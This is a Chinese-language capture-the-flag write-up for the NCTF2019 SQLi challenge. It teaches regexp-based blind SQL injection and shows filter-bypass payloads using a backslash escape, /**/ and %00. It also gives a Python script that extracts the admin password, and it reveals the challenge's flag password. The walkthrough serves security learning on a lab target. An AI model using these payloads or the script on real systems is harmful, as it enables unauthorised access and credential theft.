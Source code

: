 # [NCTF2019]SQLi

## 0、知识点

>   基于regexp的盲注

 **关于MySQL的regexp**

>   **regexp：是正则匹配，可以说它是like关键字的上位替代，like关键字可以做到的它也可以做到**

**看一个正常的使用案例：**

```MySQL
-- 查找a开头的名称
SELECT * FROM `tb_class` WHERE ClassName regexp '^a'
-- 查找a结尾的名称
SELECT * FROM `tb_class` WHERE ClassName regexp 'a$'
-- 查找a开头 [或] a结尾
SELECT * FROM `tb_class` WHERE ClassName regexp 'a$|^a'
-- 范围查找，查找包含a到d字母的名称
SELECT * FROM `tb_class` WHERE ClassName regexp '[a-d]'
-- 范围组合,以下会依次去匹配，ae/be/ce/de的记录
SELECT * FROM `tb_class` WHERE ClassName regexp '[a-d]e'
```

**看一个基本注入案例**

```mysql
-- 正常注入语句
select username from users where id = 1;

-- 正则注入，如果username的第一个字符是a返回1，不是a返回0
select (select username from users where id=1) regexp '^a';

-- 联合查询中爆破数据库名
1 union select 1,database() regexp '^s',3--+
```

**regexp代替where条件中的 = 号**

==当过滤了【=】【in】【like】的时候就可以使用这个办法==

==【^】被过滤也可以使用【$】从后往前匹配==

```mysql
-- 用regexp查询20开头的年级
select * from tb_class where grade REGEXP '^20'
```





## 1、分析

>   打开题目主页，看起来非常简单，是一个sql注入的题，并且把sql语句都放出来了

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303230956093.png)

>   然后尝试使用万能密码`admin' or 1=1`并没有什么用

>   然后使用burpsuite扫一下过滤了哪些关键字

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303230959567.png)

>   过滤了好多东西，如：select、concat、like、limit、or、and等等，好多好多

>   根据过滤的关键字，也想不出啥注入方式，所以随便翻翻看看有没有提示

>   常见的提示一般会放在：**源代码、robots.txt**里面

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231047649.png)

>   可以看到提示文件了

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231048406.png)

>   可以发现这题有着让人头疼的过滤，然后登录进去了就可以拿flag，
>
>   读一下这个过滤，可以发现**regexp没有被过滤**，并且用户名是**admin**，password需要猜

>   所以我们需要去爆破admin用户的登录密码，但是如果用户名输入**admin**，会被**hacker**
>
>   所以出**username**这里下手是不行的，得想办法构造出**or**关键字那种形式的查询，从而把**username**的值忽略掉

>   如何把 **username**的值忽略掉，无非就是两个办法，**想办法闭合单代号，然后注释掉后面的单引号，或者转义掉后面的单引号，让后面的查询条件变成username的值**
>
>   ==闭合单引号的方法一般有：==
>
>   -   ==在输入的值的前面添加单引号==，**但是这里单引号被过滤掉了**
>   -   ==转义掉 **username**后面的单引号，从而让`username = \' and passwd=`==
>   -   翻一翻过滤关键字可以发现**【\】并没有被过滤，【||】也没有被过滤，【^】也没有被过滤，【空格】是被过滤的，但是可以使用【`/**/`】来代替空格**
>       -   那么盲注语句就很明显如下

```mysql
select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/\"^a\";%00'
```

>   然后推导出了盲注语句，就开始写脚本了？
>
>   然而并不是，写脚本之前首先的先知道如果第一个字符是正确的它会返回啥结果
>
>   所以首先用burp跑一遍看看第一个字符是啥

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232319041.png)

>   直接把大小写字符和标点符号全跑了一遍，只有【y】和【^】发生了302跳转，然后跳转到了一个**welcome.php**页面，至于Y应该是不区别大小写，可以先不管，至于【^】因为在正则里面就是表示任意字符，所以不考虑

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232322674.png)

>   进一步用Python分析一下，具体要以啥为判断注入正确的标准，以响应码还是判断welcome页面
>
>   输入y进行测试是返回了404结果，其他的字符会返回200

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232327601.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303232334626.png)



>   然后就可以写一个盲注脚本了，**其中有个需要注意的点就是最后的【%00】截断，使用Python不知道为啥一直会被转义成【%2500】，然后导致一直失败，这个在burp进行测试是不会被转义的，后面找到可以使用【\x00】作为替代，效果是一样，这个**

```py
import requests
import string
import time

url = "http://06cd07e5-0726-4196-8e57-7a6b63746a53.node4.buuoj.cn:81/"
charPool = string.ascii_letters + string.digits + "_"

# 接收最终的结果
result = ''

# 密码的长度
for i in range(1, 60):

    for j in charPool:

        data = {
            "username": "\\",
            "passwd": '||/**/passwd/**/regexp/**/"^{}";\x00'.format(result+j)
        }
        res = requests.post(url=url, data=data)
        if res.status_code == 404:
            result += j
            print(result+j, "   ", res.status_code)
            break

        # 当到达最后一个字符时候
        if j == "_":
            break

        time.sleep(0.5)
```

>   当以【__】结尾跑完一圈还全是200，就是后面没了

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231530758.png)



>   最后登录获取flag，用户名随便输，密码为：you_will_never_know7788990

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303231518174.png)



参考：

https://xz.aliyun.com/t/8003#toc-7

https://zhuanlan.zhihu.com/p/106088835

https://www.cnblogs.com/zhwyyswdg/p/14036395.html
